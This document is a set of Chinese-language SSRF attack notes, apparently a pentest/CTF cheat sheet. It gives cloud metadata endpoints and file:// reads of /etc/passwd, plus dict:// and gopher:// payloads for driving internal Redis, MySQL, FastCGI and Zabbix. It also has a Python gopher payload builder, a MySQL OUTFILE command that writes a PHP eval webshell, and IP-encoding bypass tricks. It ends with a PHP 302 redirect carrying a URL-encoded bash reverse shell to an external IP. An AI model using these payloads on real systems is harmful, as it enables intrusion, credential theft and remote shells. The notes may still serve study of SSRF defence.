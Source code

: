 ## **SSRF存在场景：**
```
各种输入发消息框
发送网址内容的消息服务端会自动请求(如抖音消息，钉钉消息，知乎发帖，QQ卡片消息等，可用DNSlog验证)
全网页翻译的输入框
在线识图输入图片网址的输入框
在线解析url的输入框
在线获取网站信息的输入框
webhook的接口参数可控
```
在src中的ssrf中，最好自定义域名验证dnslog，不要用公网的dnslog（一般被拉黑了的）。

^
## **测试有回显的SSRF的探测协议：**
http:
```    
验证，请求一个查看本地ip的网站，查询出口ip    
验证，请求127.0.0.1

对于云服务器还可以访问元数据服务。
元数据服务是一种提供实例相关配置信息的服务，它允许在实例内部访问实例的属性信息，如实例ID、VPC信息、网卡信息等
阿里云
http://100.100.100.200/latest/meta-data/
腾讯云
http://metadata.tencentyun.com/latest/meta-data/
华为云
http://169.254.169.254/
http://169.254.169.254/latest/meta-data/instance-id
```
云ssrf：<https://cloud.tencent.com/developer/article/1968655?areaSource=105001.3&traceId=FyZTpLc2ixMvGwJf2-pDn>



file:
```
    访问本地文件，file:///etc/hosts 查看本机内网ip
    高权限访问本地文件，file:///proc/net/arp  查看当前的内网的网关为：`172.73.23.1 `，
    而且可以直接发现内网中的另一个 IP 资产为：如`172.73.23.100`
```

伪协议
```
file:/// 从文件系统中获取文件内容，如，file:///etc/passwd
dict:// 字典服务器协议，访问字典资源，如，dict:///ip:6739/info
sftp:// SSH文件传输协议或安全文件传输协议
gopher:// 分布式、文档传递服务，可使用gopherus生成payload
sftp:// SSH文件传输协议或安全文件传输协议
ldap:// 轻量级目录访问协议
tftp:// 简单文件传输协议
```

dict: <https://zhuanlan.zhihu.com/p/115222529>
```
    字典服务器协议，基于查询响应的TCP协议
    dict://172.72.23.23:3306  可探测是否有服务的响应
    dict://172.72.23.27:6379 用dict命令操作redis
                dict://172.72.23.27:6379/set x 2333
                dict://172.72.23.27:6379/info
使用编程的请求函数可以请求，或curl dict://192.168.66.33:6379/info
```
ftp:
```
```
gopher：
```
dict协议的需要一条一条的执行，而gopher协议可以整合执行一条命令就行

并可携带请求包发起get,post请求。dict只能get。

工具gopherus，可以直接计划任务反弹和phpshell。

curl可以走gopher协议
curl gopher://172.2.239.5:9000/_%01%01



手工打gopher流程：
使用脚本生成payload
import urllib.parse

host = "127.0.0.1:80"
content = "uname=admin&passwd=admin"
content_length = len(content)

test =\
"""POST /index.php HTTP/1.1
Host: {}
User-Agent: curl/7.43.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: {}

{}
""".format(host,content_length,content)
# 按照标准，URL只允许一部分ASCII字符，其他字符（如汉字）是不符合标准的，此时就要进行编码。
# 因为我在构造URL的过程中要使用到中文：此时需要用到urllib.parse.quote，此处是为了替换特殊字符\
tmp = urllib.parse.quote(test)
new = tmp.replace("%0A","%0D%0A")
result = urllib.parse.quote(new)
print("gopher://"+host+"/_"+result)

下面是GET:
import urllib
test =\
"""GET /ssrf/get.php HTTP/1.1
Host: 192.168.0.111
"""  
#注意后面一定要有回车，回车结尾表示http请求结束
tmp = urllib.parse.quote(test)
new = tmp.replace('%0A','%0D%0A')
result = '_'+new
print(result)
```




^
## **测试SSRF:**
```
用bp跑内网段:
172.72.23.$21$:$80$
dict://172.72.23.$21$:$80$

扫内网站点的目录，扫网站指纹

扫到资产，通过SSRF的入口进行内网攻击：
手工使用入口需进行一次URL编码
BP中使用入口需进行双编码

入口的请求是POST请求使用gopher协议携带POST请求包
```

利用ssrf操作内网redis写入计划任务反弹shell：<https://blog.csdn.net/qq_63844103/article/details/126896955>
利用ssrf操作内网：
<https://www.sqlsec.com/2021/05/ssrf.html>
![](.topwrite/assets/image_1735724929100.png)

^
使用gopherus.py对无密码mysql执行sql语句：
```
python2 gopherus.py --exploit mysql
root
select  "<?php eval($_POST[1]);?>"  into outfile "/var/www/html/1.php";
如果在请求体中
记得把_后面那一大段内容再ur编码一次，发送
```
![](.topwrite/assets/image_1733842266820.png)
使用gopherus.py对9000端口的FastCGI执行命令：
```
1、PHP版本要高于5.3.3，才能动态修改PHP.INI配置文件
2、知道题目环境中的一个PHP文件的绝对路径
3、PHP-FPM监听在本机9000端口
4、libcurl版本>=7.45.0
```
记得把_后面那一大段内容再ur编码一次，发送
![](.topwrite/assets/image_1733892617872.png)

对10050的zabbix，命令执行。
```
gopherus --exploit zabbix
```



有ssrf但是有防御绕过：
**dns 重绑定**
https\://xz.aliyun.com/t/7495?time\_\_1311=n4%2BxnD0Dy7GQ3AKeD5DsA3rcC%3D%2FjO4boTD

^
## **SSRF绕过**

跳转型
```
https://33129999.xyz@baidu.com

已知要符合正则
if(preg_match('/^http:\/\/ctf\..*show$/i',$x)){
    echo file_get_contents($url);
}

要符合http://ctf开头，show结尾，则
http://ctf.@127.0.0.1/flag.php?show
```
^
姿势1：

```
http://127.1:80
http://127.1:80/flag.php
http://0/flag.php
http://127.255.255.254/flag.php
```

姿势2：将点分十进制表示的IP转化为十进制IP地址绕过

```
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
http://2852039166/  = http://169.254.169.254

利用ip地址加密16进制，
http://013451347312
http://0177.0.0.1/ = 127.0.0.1
http://3232235777/

```

姿势3：利用DNS解析
```
http://customer1.app.my.company.127.0.0.1.nip.io = 127.0.0.1

127.0.0.1.nip.io解析后ip就是127.0.0.1
```

<https://mp.weixin.qq.com/s/r6wOTmzcduWi_6v6ujVBwg>

^
#### **302型**
ssrf要求访问的ip是127.0.0.1
自己部署一个php，程序302到内网的服务，并携带参数，这里是命令执行参数。
```
<?php  
header('Location: http://127.0.0.1/flag.php?cmd=%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%31%36%2e%36%32%2e%33%38%2e%37%31%2f%39%39%39%39%20%30%3e%26%31%22', true, 302);  
exit();
```